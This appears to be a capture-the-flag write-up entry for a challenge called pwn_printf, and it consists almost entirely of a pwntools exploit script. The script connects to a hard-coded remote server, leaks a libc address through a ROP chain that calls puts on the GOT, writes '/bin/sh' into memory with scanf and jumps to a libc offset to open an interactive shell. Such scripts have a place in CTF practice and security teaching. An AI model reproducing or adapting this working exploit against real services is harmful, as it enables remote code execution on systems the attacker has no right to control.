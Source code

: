 
## Pwn

### pwn_printf

exp:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
context.terminal=['tmux','splitw','-h']
p = remote('47.111.96.55',54606)
elf = ELF('./pwn_printf')
read_plt = elf.symbols['read']
read_got = elf.got['read']
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']
pop_rdi = 0x401213
v_addr = 0x4007C6
scanf = 0x4006A0
pop_rsi_ret = 0x401211
p.recvuntil("You will find this game very interesting")
for i in range(16):
    p.sendline("32")
payload1 = b'a'*0x8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(pop_rdi) + p64(0x40) + p64(v_addr)
p.sendline(payload1)
p.recvline()
rrr = p.recv(6)
puts_addr = u64(rrr.ljust(8,b'\x00'))
print (hex(puts_addr))
wri = 0x06030A0
payload2 = b'a'*0x8 + p64(pop_rdi) + p64(0x0401D99 ) +p64(pop_rsi_ret) +p64(wri)+p64(0)+ p64(scanf) + p64(pop_rdi) + p64(8*4 )+ p64(v_addr+1)
p.recv()
n1 = int(b'/bin'[::-1].hex(),16)
n2 = int(b'/sh\x00'[::-1].hex(),16)
p.sendline(payload2)
print("n1:" + str(n1))
sleep(0.3)
p.sendline(str(n1))
wri = 0x06030A0+4
sleep(0.5)
payload2 = b'a' * 0x8 + p64(pop_rdi) + p64(0x0401D99) + p64(pop_rsi_ret) + p64(wri) + p64(0) + p64(scanf) + p64(v_addr)
p.send(payload2)
p.sendline(str(n2))
payload3 = b'a' * 0x8 + p64(pop_rdi) + p64(0x06030A0) + p64(puts_addr-0x2a300)
sleep(0.5)
p.sendline(payload3)
p.interactive()
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
